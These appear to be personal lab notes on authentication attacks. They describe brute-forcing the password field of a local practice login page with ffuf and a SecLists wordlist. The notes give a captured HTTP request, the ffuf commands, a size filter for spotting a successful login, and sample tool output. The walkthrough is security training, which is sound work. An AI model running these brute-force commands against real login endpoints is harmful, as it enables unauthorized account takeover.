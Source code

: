 ## ==Introduction to Authentication :==

## ==Brute Force Attacks :==

### ==Brute Force with FUZZ CLI TOOL :==

```Markdown
# Steps 

1. Copy the request from Burp into a file (text file.)

2. Change the value to 'FUZZ' where ever you tring to brute force and save the file.

POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
DNT: 1
Sec-GPC: 1
Priority: u=0, i

" username=jermey&password=FUZZ " 

3. Then use cli tool called 'ffuf' and run this command.

- 'ffuf -request req.txt -request-proto http 
	-w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt'

4. stop the brute force filter out the size with '-fs':

- ffuf -request req.txt -request-proto http 
	-w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814'
	
5. Should get something like this : 

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Priority: u=0, i
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Dest: document
```